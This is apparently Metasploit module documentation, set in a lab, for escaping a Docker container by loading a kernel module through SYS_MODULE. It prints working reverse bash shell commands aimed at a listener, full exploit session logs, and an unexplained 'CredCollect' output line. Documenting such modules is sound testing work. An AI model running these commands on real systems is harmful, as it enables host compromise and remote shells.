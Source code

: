 ## Vulnerable Application

This module performs a container escape onto the host as the daemon user. It
takes advantage of the SYS_MODULE capability. If that exists and the linux
headers are available to compile on the target, then we can escape onto the host.

### Creating A Testing Environment

- Get a VM that you want to test on (or your own machine)
- Install Docker
- Run a listener (can be anything but well use an example of a bash reverse shell)
```msf
msf6 > use payload/cmd/unix/reverse_bash
msf6 payload(cmd/unix/reverse_bash) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(cmd/unix/reverse_bash) > generate -f raw
bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
msf6 payload(cmd/unix/reverse_bash) > exploit -z
[*] Payload Handler Started as Job 0
msf6 payload(cmd/unix/reverse_bash) > 
[*] [2023.11.07-21:28:57] Started reverse TCP handler on 192.168.56.1:4444
```
- Create a privileged container (forwarding port 4444 in this example in order to use a bind shell from the host. Container must be the same OS as host)
```bash
docker run --rm -it -p 4444:4444 --cap-add SYS_MODULE ubuntu bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
```
- Inside your session, install the required packages to run. Package manager will differ to OS, for debian as an example
```bash
apt update && apt install -y gcc make kmod linux-headers-$(uname -r)
```

## Verification Steps

1. start msfconsole
2. get a session
1. `use exploit/linux/local/docker_privileged_container_kernel_escape`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
6. `exploit`

## Options

### KernelModuleName

The name that the kernel module will be called in the system. The default if no name is set is "{rand(8)}"

### WritableContainerDir

A directory where we can write files inside the container (default is /tmp/.{rand(4)}). This is needed to drop the payload into the container.

### ReloadKernelModule

Rebuilds and reloads kernel module if its already loaded in case of repeat runs.

## Scenarios

### Container Escape from debian linux with reverse bash

```msf
msf6 > sessions -i 1 -c "apt update && apt install -y gcc make kmod linux-headers-$(uname -r)"
[*] Running 'apt update && apt install -y gcc make kmod linux-headers-$(uname -r)' on shell session 1 (192.168.56.126)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 1 
session => 1
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:42:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:42:42] Creating files
[*] [2023.11.07-21:42:43] Making kernel module
[+] [2023.11.07-21:42:43] Kernel module compiled successfully
[*] [2023.11.07-21:42:43] Loading kernel module
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.126:60974) at 2023-11-07 21:42:50 -0500
[*] This is CredCollect, I have the conn!
```

### Container Escape from arch linux with meterpreter

```msf
msf6 > sessions -i 2 -c "pacman -Syy --noconfirm gcc glibc make linux-headers"
[*] Running 'pacman -Syy --noconfirm gcc glibc make linux-headers' on shell session 2 (192.168.56.106)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 2 
session => 2
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set lhost vboxnet0 
lhost => vboxnet0
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:48:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:48:41] Creating files
[*] [2023.11.07-21:48:43] Making kernel module
[+] [2023.11.07-21:48:44] Kernel module compiled successfully
[*] [2023.11.07-21:48:44] Loading kernel module
[*] [2023.11.07-21:48:44] Sending stage (3045380 bytes) to 192.168.56.106
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.106:50402) at 2023-11-07 21:48:45 -0500
[*] This is CredCollect, I have the conn!
[!] [2023.11.07-21:48:45] Attempting to delete working directory /tmp/.IvLx
[*] Session 4 created in the background.
```
